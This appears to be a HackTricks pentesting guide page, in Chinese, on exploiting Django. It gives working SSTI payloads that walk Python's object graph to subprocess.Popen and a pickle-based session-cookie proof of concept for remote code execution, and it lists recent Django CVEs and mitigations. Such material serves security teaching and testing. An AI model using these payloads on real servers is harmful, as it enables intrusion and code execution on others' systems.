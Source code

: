 # Django

{{#include /src/banners/hacktricks-training.md}}

## 缓存操控导致RCE
Django的默认缓存存储方法是[Python pickles](https://docs.python.org/3/library/pickle.html)，如果[不受信任的输入被反序列化](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)，可能导致RCE。**如果攻击者能够获得对缓存的写入访问权限，他们可以将此漏洞升级为底层服务器上的RCE**。

Django缓存存储在四个地方之一：[Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12)、[内存](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16)、[文件](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16)或[数据库](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95)。存储在Redis服务器或数据库中的缓存是最可能的攻击向量（Redis注入和SQL注入），但攻击者也可能利用基于文件的缓存将任意写入转化为RCE。维护者已将此标记为非问题。需要注意的是，缓存文件夹、SQL表名和Redis服务器的详细信息将根据实现而有所不同。

此HackerOne报告提供了一个很好的、可重现的利用Django缓存存储在SQLite数据库中的示例：https://hackerone.com/reports/1415436

---

## 服务器端模板注入（SSTI）
Django模板语言（DTL）是**图灵完备**的。如果用户提供的数据被渲染为*模板字符串*（例如通过调用`Template(user_input).render()`或当`|safe`/`format_html()`移除自动转义时），攻击者可能实现完整的SSTI → RCE。

### 检测
1. 查找对`Template()` / `Engine.from_string()` / `render_to_string()`的动态调用，这些调用包含*任何*未清理的请求数据。
2. 发送基于时间或算术的有效负载：
```django
{{7*7}}
```
如果渲染的输出包含`49`，则输入被模板引擎编译。

### 从原始到RCE
Django阻止对`__import__`的直接访问，但Python对象图是可达的：
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
找到 `subprocess.Popen` 的索引（约400-500，具体取决于Python构建）并执行任意命令：
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
一个更安全的通用小工具是迭代直到 `cls.__name__ == 'Popen'`。

同样的小工具适用于 **Debug Toolbar** 或 **Django-CMS** 模板渲染功能，这些功能错误处理用户输入。

---

## 基于 Pickle 的会话 Cookie RCE
如果设置 `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` 被启用（或自定义反序列化 pickle 的序列化器），Django *在* 调用任何视图代码 **之前** 解密并反序列化会话 Cookie。因此，拥有有效的签名密钥（默认情况下是项目的 `SECRET_KEY`）足以实现即时远程代码执行。

### 利用要求
* 服务器使用 `PickleSerializer`。
* 攻击者知道/可以猜测 `settings.SECRET_KEY`（通过 GitHub、`.env`、错误页面等泄露）。

### 概念验证
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
发送结果 cookie，并且有效负载以 WSGI worker 的权限运行。

**缓解措施**：保持默认的 `JSONSerializer`，轮换 `SECRET_KEY`，并配置 `SESSION_COOKIE_HTTPONLY`。

---

## 最近（2023-2025）高影响力 Django CVE 渗透测试人员应检查
* **CVE-2025-48432** – *通过未转义的 `request.path` 进行日志注入*（修复于 2025 年 6 月 4 日）。允许攻击者将换行符/ANSI 代码注入日志文件，并污染下游日志分析。补丁级别 ≥ 4.2.22 / 5.1.10 / 5.2.2。
* **CVE-2024-42005** – *在 `JSONField` 上的 `QuerySet.values()/values_list()` 中的严重 SQL 注入*（CVSS 9.8）。构造 JSON 键以突破引号并执行任意 SQL。修复于 4.2.15 / 5.0.8。

始终通过 `X-Frame-Options` 错误页面或 `/static/admin/css/base.css` 哈希指纹识别确切的框架版本，并在适用时测试上述内容。

---

## 参考
* Django 安全发布 – "Django 5.2.2, 5.1.10, 4.2.22 解决 CVE-2025-48432" – 2025 年 6 月 4 日。
* OP-Innovate: "Django 发布安全更新以解决 SQL 注入缺陷 CVE-2024-42005" – 2024 年 8 月 11 日。

{{#include /src/banners/hacktricks-training.md}}
